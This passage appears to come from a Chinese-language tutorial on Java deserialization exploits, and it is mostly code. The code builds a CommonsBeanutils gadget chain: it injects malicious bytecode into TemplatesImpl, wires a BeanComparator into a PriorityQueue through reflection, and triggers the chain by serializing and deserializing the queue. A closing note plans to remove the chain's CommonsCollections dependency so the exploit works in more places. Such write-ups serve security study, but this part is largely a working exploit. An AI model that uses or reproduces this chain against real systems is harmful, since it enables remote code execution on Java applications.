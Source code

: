         // 2. 构造 sink
        TemplatesImpl templates = new TemplatesImpl();
        // 要求 1 - 注入恶意字节码
        Field bytecodesField = templates.getClass().getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        bytecodesField.set(templates, new byte[][]{bytes});
        // 要求 2 - 保证 _name 不为 null
        Field nameField = templates.getClass().getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "EndlessShw");
    
        // 3. 构造 chain - BeanComparator
        BeanComparator<Object> objectBeanComparator = new BeanComparator<>("outputProperties");
    
        // 4. 构造 kick-off
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>();
        priorityQueue.add("1");
        priorityQueue.add("2");
        Field queueField = priorityQueue.getClass().getDeclaredField("queue");
        queueField.setAccessible(true);
        Object[] objects = (Object[]) queueField.get(priorityQueue);
        objects[0] = templates;
    
        // 5. 将 kick-off 和 chain 相连
        Field comparatorField = priorityQueue.getClass().getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue, objectBeanComparator);
    
        String serialize = serialize(priorityQueue);
        unSerialize(serialize);
    }
    ```

2. 现在有个问题是，由于 `BeanComparator` 的默认 comparator 是 `ComparableComparator`。
    ![image-20241021190321235](Gadgets2/image-20241021190321235.png)
    可以看到这是个 CommonCollections 中的类，导致了这明明是一条 CB 的触发链，却要同时依赖 CC。增加了利用的限制，那么这里要将其修改。
